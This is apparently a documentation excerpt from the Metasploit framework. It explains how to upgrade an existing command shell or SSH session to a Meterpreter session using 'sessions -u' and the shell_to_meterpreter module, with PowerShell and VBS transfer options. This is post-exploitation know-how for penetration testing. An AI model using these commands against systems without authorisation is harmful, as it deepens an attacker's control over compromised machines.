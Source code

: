 ## Upgrading shells to Meterpreter

If you have an existing session, either Meterpreter, an SSH, or a basic command shell - you can open a new Meterpreter session with:

```
sessions -u 3
```

To upgrade the most recently opened session to Meterpreter using the `sessions` command:

```
sessions -u -1
```

Or run the `shell_to_meterpreter` module manually:

```
use multi/manage/shell_to_meterpreter
run session=-1
run session=-1 win_transfer=POWERSHELL
run session=-1 win_transfer=VBS
```